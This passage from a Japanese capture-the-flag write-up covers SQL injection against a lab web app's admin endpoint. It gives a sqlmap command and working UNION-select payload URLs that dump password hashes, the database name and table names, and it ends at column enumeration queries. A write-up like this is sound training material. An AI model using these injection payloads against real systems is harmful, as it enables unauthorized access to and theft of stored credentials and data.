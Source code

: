 このトークンをブラウザで設定すると、Admin パネルに移動できた。

## SQL インジェクション

user API に対して SQL インジェクションを試したら下記のエラーが表示された。

http://10.10.116.157/admin?user=1%27%20or%20%271%27=%271

```
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' or '1'='1' at line 1
```

sqlmap を実行したら、トークンが無効化された。レート制限があると思われる。

```sh
$ sqlmap -r ./req-user.txt -p user --dbs -batch
```

手動 SQLi

http://10.10.116.157/admin?user=100%20union%20select%201,group_concat(password),3,4%20from%20users

4 ユーザー分のパスワードハッシュを取れた。しかし、hashcat を実行してもクラックできなかった。

```sh
User $2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW,$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q,$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG,$2b$10$jKv2CtS1tviW0QcCrkNAU.PWHNRhyarrphbUc1pHfzJ.6oIrNWzQq
ID: 1
Is administrator: true
```

データベース名

http://10.10.116.157/admin?user=100%20union%20select%201,database(),3,4%20from%20users

```
User marketplace
ID: 1
Is administrator: true
```

テーブル名

http://10.10.116.157/admin?user=100%20union%20select%201,group_concat(table_name),3,4 from information_schema.tables where table_schema = 'marketplace'

```
User items,messages,users
ID: 1
Is administrator: true
```

列名

http://10.10.116.157/admin?user=100%20union%20select%201,group_concat(column_name),3,4 from information_schema.columns where table_name = 'users'
http://10.10.116.157/admin?user=100%20union%20select%201,group_concat(column_name),3,4 from information_schema.columns where table_name = 'items'
http://10.10.116.157/admin?user=100%20union%20select%201,group_concat(column_name),3,4 from information_schema.columns where table_name = 'messages'
